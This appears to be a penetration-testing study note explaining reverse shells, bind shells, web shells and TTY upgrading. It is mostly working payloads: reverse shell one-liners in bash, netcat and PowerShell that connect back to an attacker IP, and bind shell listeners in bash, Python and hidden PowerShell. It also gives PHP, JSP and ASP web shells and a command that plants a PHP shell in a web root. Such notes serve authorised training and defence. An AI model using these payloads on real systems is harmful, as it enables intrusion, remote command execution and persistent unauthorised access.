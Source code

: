 # Shellings

Means getting a active bash session on the target machine, which allows to execute CLI commands. Usually done exploiting an RCE vulnerability.

There are different types of shelling.

| Type of shelling | Method of communicaton |
| - | - |
| Reverse shell | Target machine connects to us and gives us control to run any command |
| Bind | shell | We open a connection on a target machine |
| Web shell | It's when server accepts commands through HTTP parameters |

## Reverse shell

To launch a netcat listener server on our machine:

`nc -lvnp 1234`
-  `-l` means to open server on listen mode
- `-v` verbose mode, which means output is given on any action (connect, disconnect, etc.)
- `-n` Disables DNS resolution which reduces latency as we connect from IP to IP
- `-p 1234` port number netcat is listening on
When we have this server open, we can make the target connect to it through RCE. Though the connection is fragile as session can be interrupted by connection loss or someone ctrl+c'ing.

```
you can find your IP on linux with ip a or on windows with ipconfig. It's needed for when reverse shelling on target
```

What to execute on target machine depends on OS

[Reverse shell commands for different bashes and languages](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

These are reliable commands that can be run on target for reliable reverse shell:
``` bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

And when we receive a message on our listener server we are in.

## Bind shell

[Bind shell payload cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md#ncat)


Bind shell is when you manage to create a listener server on target and you connect to it.

Reliable commands for opening a listener server on the target. 

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
to connect to a listener server with netcat we can run a command:
`nc ip 1234`

It's better because we can now interrupt shell from our side, and we decide to connect back we can do that by just nc'ing.

## Upgrading TTY

Netcat sucks. You can move text cursor, nor you can access command history with up and down. 

But we can do that, we need to upgrade our connection to TTY. We can map our terminal TTY to remote TTY.

### TTY upgrade with `python/stty`

On our machine we run 
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
After the command - `ctrl+z` to background our shell 
then we run:
```bash
stty raw -echo
fg
```
After `fg` it will bring our `netcat` to foreground. The terminal will show blank line. We can hit enter again to get back to our shell or input reset and hit enter to bring it back.

It's possible to change `stty` window side.
We get variables
```bash
echo $TERM
stty size
```
now we can set them
```bash
export TERMP=xterm-256color
stty rows 67 columns 318
```

## Web Shell

Web shell is usually an injected PHP or ASPX script that accepts our commands through HTTP request parameters such as `GET` or `POST` executes the command and print its output back.

Short web shell scripts
```php
<?php system($_REQUEST["cmd"]); ?>
```
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
```asp
<% eval request("cmd") %>
```

Once we can execute commands we need to place our shell script into remote host web directory. This cn be done through a vulnerability in an upload feature.

Default webroots for common webservers

| Web server | Default Webroot |
| - | - | 
| Apache | `/var/www/html/` |
| Nginx | `/usr/local/nginx/html` |
| IIS | `c:\inetpub\wwwroot` |
| XAMPP | `C:\xampp\htdocs` |

If we knew the directory we could write our `.php` (or any script) file.
```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

Now to access our web shell we would just cURL into the website using `shell.php` with paramter `?cmd=` which value would be the command we would like to execute

Web shell benefits:
- Bypasses firewalls as the server itself is issuing the commands through the OS which was exploited by using a web site 
- Even if the compromised host is rebooted the exploit file is still there
Disadvantage of web shell are is that it's not as interactive as the other shells.

Just another [cheat sheet](https://highon.coffee/blog/reverse-shell-cheat-sheet/)